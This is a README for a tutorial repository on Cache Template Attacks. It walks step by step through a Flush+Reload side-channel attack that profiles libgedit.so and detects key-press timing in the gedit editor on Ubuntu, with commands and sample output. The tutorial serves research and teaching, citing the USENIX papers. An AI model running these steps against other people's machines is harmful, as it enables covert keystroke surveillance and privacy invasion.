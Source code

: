 # Cache Template Attacks

Cache Template Attacks are a generic attack technique, allowing to profile and **exploit cache-based information leakage of any program automatically**, without prior knowledge of specific software versions or even specific system information.

The "[Cache Template Attacks](https://www.usenix.org/conference/usenixsecurity15/technical-sessions/presentation/gruss)" paper was presented by Gruss, Spreitzer and Mangard (USENIX Security 2015). The underlying cache attack used is Flush+Reload as presented by Yarom and Falkner in "[FLUSH+RELOAD: a High Resolution, Low Noise, L3 Cache Side-Channel Attack](https://www.usenix.org/conference/usenixsecurity14/technical-sessions/presentation/yarom)" (USENIX Security 2014).

This repository is intended to be a **tutorial to perform a side-channel attack on key presses timing in text editors**. The attack is performed in three steps, that can be found in their respective folders.


-----
## One note before starting

The programs should work on x86-64 Intel CPUs, and **the examples of usage have been tested to run for gedit on Ubuntu 18.04**. The Cache Template Attacks technique is independent of the operating system. More OS specific version of the tools, as well as other tools, are provided in the [IAIK repository](https://github.com/IAIK/cache_template_attacks).

**Warning:** This code is provided as-is. You are responsible for protecting yourself, your property and data, and others from any risks caused by this code. This code may not detect vulnerabilities of your applications. This code is only for testing purposes. Use it only on test systems which contain no sensitive data.


-----
## Step #1: Calibration
Before starting the Cache Template Attack you have to find the cache hit/miss threshold of your system.

Use the calibration tool for this purpose, in the **calibration folder**:
```
cd calibration
make
./calibration
```
This program should print a histogram for cache hits and cache misses. 

Based on the histogram, your first task is to find a suitable threshold value.

**Note:** In the other two programs a constant ```MIN_CACHE_MISS_CYCLES``` is defined. Change it based on your threshold, if necessary.


-----
## Step #2: Key press profiling
In our example, we monitor well observable events like key presses on a text editor, e.g. gedit. You find the profiling tools in the **profiling folder**.

We first find the address range to attack.
```
$ cat /proc/`ps -A | grep gedit | grep -oE "^[0-9]+"`/maps | grep r-x | grep libgedit
7fe1cabb6000-7fe1cac8f000 r-xp 00000000 fd:01 6423718                    /usr/lib/x86_64-linux-gnu/gedit/libgedit.so
```
We do not care about the virtual addresses, but only the size of the address range and the offset in the file (which is 00000000 in this example). 

This line can directly be passed to the profiling tool in this step, where we create a template. This tool requires you to generate the events somehow. We want to profile key presses, so the simplest way to do it is to just **jam a key while the profiling tool is running**, and create a Cache Template showing which addresses react on this key press. 

Run the following commands to find keypress information leakage in gedit (the program should be running and it should have focus as soon as you started the spy script):
```
cd profiling
make
sleep 3; ./profiling 200 7faec85f5000-7faec86cf000 r-xp 20000 fd:01 11930745                   /usr/lib/x86_64-linux-gnu/gedit/libgedit.so # in our example we profile keypresses in gedit
```

You are generally looking for addresses which have high peaks, like the following (done while pressing the key N in gedit):
```
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24640,   6
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24680,  24
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x246c0,  20
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24700,  20
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24740,  48
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24780,  24
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x247c0,  22
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24800,  12
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24840,  14
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24880,  11
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x248c0,   7
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24900,   9
/usr/lib/x86_64-linux-gnu/gedit/libgedit.so, 0x24940,  10

```
The address 0x24740 had 48 cache hits during a probe duration of 200µs.

**Note down a few suitable addresses** with such high peaks. To filter false positive cache hits we should then perform a second profiling scan without jamming a key.

**Note:** Cache Template Attacks can be fully automated, but this requires the event to be automated as well. Out of scope of this tutorial, you can use libxdotool for this purpose. 



-----
## Step #3: Key presses

You can now start monitoring key presses events, with the spy tool in the **exploitation folder**.

Switch to an already opened gedit window before ./spy is started, and try one of the addresses you noted down in step #2, by running the following lines:
```
cd exploitation
make
sleep 3; ./spy /usr/lib/x86_64-linux-gnu/gedit/libgedit.so <addr>
```

You can then verify that the address indeed has cache hits when pressing a key (and only when pressing a key) by pressing keys in gedit and observing the output of the spy program. You may need to try several addresses to find one that does not give false positives (i.e. cache hits for other events than key presses). 

```
32208296600503: Cache Hit (152 cycles) after a pause of 622379 cycles
32211812588823: Cache Hit (152 cycles) after a pause of 1113837 cycles
32211813157561: Cache Hit (139 cycles) after a pause of 143 cycles
32211813748560: Cache Hit (142 cycles) after a pause of 177 cycles
32211842303343: Cache Hit (97 cycles) after a pause of 9344 cycles
32212655472978: Cache Hit (152 cycles) after a pause of 258912 cycles
32212656169146: Cache Hit (152 cycles) after a pause of 181 cycles
32212656572860: Cache Hit (142 cycles) after a pause of 117 cycles
32213463151480: Cache Hit (142 cycles) after a pause of 255451 cycles
```

You may also observe several cache hits events in a relatively short time frame when pressing one key. You can modify ```spy.c``` to filter out events to obtain a clean trace of single events per key press. 

